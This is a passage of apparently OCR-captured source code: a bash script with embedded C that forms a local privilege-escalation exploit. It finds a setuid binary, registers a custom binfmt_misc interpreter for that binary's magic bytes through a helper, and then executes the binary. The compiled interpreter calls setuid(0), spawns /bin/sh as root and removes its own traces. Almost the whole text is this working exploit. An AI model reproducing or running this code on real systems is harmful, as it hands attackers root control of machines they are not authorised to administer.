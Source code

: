 ```bash
{
    [[ -e "$1" ]] && \
    [[ "$2" =~ [[:digit:]]+ ]] && \
    dd if="$1" bs=1 count="$2" status=none \
        | sed -e 's-\x00-\\x00-g'
}

[[ -n "$1" ]] && usage

#not_writeable && die "Error: $mountpoint/register is not writeable"

target="$(pick_suid "$searchsuid")"
test -e "$target" || die "Error: Unable to find a suid binary in $searchsuid"

binfmt_magic="$(read_magic "$target" "126")"
test -z "$binfmt_magic" && die "Error: Unable to retrieve a magic for $target"

fmtname="$(mktemp -u XXXX)"
fmtinterpr="$(mktemp)"

gcc -o "$fmtinterpr" -xc - <<- __EOF__
        #include <stdlib.h>
        #include <unistd.h>
        #include <stdio.h>
        #include <pwd.h>

        int main(int argc, char *argv[])
        {
                // remove our temporary file
                unlink("$fmtinterpr");

                // remove the unused binary format
                FILE* fmt = fopen("$mountpoint/$fmtname", "w");
                fprintf(fmt, "-1\\n");
                fclose(fmt);

                // MOTD
                setuid(0);
                uid_t uid = getuid();
                uid_t euid = geteuid();
                struct passwd *pw = getpwuid(uid);
                struct passwd *epw = getpwuid(euid);
                fprintf(stderr, "uid=%u(%s) euid=%u(%s)\\n",
                        uid,
                        pw->pw_name,
                        euid,
                        epw->pw_name);

                // welcome home
                char* sh[] = {"/bin/sh", (char*) 0};
                execvp(sh[0], sh);
                return 1;
        }
__EOF__

chmod a+x "$fmtinterpr"

binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper

exec "$target"
```
